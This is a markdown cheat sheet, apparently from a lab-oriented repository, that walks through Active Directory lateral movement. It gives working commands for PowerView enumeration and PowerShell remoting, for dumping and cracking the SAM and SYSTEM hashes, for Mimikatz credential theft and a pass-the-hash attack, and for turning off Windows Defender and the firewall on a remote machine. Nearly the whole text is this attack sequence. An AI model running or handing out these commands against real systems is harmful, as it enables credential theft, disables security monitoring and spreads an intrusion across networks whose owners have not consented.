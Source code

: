 # Lateral Movement

## Using PowerView

> Don't forget to import the script bypassing powershell execution policy

To test if you have an admin access on the current machine:

 ```powershell
 Test-AdminAccess -Verbose
 ```

To see what srevers you have access to:
 
 
 ```powershell
 Find-DomainUserLocation
 ```

 ```powershell
 Invoke-Command -ComputerName dc -ScriptBlock{whoami /groups; hostname}
 ```
  Using PowerShell Remoting
  
  ```powershell
  Enter-PSSession -ComputerName dc
  ```
  
  ## After Getting Local Admin Access...
  
 
 ### Dumping SAM\SYSTEM files for offline cracking:
 
  > C:\Windows\System32\config\SAM


 > C:\Windows\System32\config\SYSTEM

Copying the files to the current directory:

 ```batch
 reg save HKLM\sam sam
 
 reg save HKLM\system system
 ```
 
 On Kali Linux use the `samdump2` tool:
 
 ```bash
 samdump2 system sam
 ```
 
 Take the hashes and crack them with hashcat:
 
 ```bash
 hashcat -D 2 -m 1000 hashes.txt rockyou.txt -r OneRuleToRuleThemAll.rule
 ```
 
### SAM and LSA w/ mimikatz
 
 ```powershell
 powershell -ep bypass
 
 . .\invoke-mimikatz.ps1
 
 Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords' "lsadump::sam" "exit"'
  ```
Copy the NTLM of the users 😈
 
### Pass the Hash Attack w/ mimikatz


 ```powershell
 powershell -ep bypass
 
 . .\invoke-mimikatz.ps1
 
 Invoke-Mimikatz -Command '"sekurlsa::pth /user:student2 /domain:marvel /ntlm:<NTLM YOU COPIED> /run:powershell.exe"'
  ```
  
Create a session variable and disable defences:
  
  ```powershell
  
  $sess = New-PSSession -ComputerName FILESHARE
  
  Invoke-Command -ScriptBlock{Set-MpPreference -DisableRealTimeMonitoring $true} -session $sess
  
  
  Invoke-Command -ScriptBlock{Set-MpPreference -DisableIOAVProtection $true} -session $sess
  
  
  Invoke-Command -ScriptBlock{netsh advfirewall set allprofiles state off} -session $sess
  
  ``` 
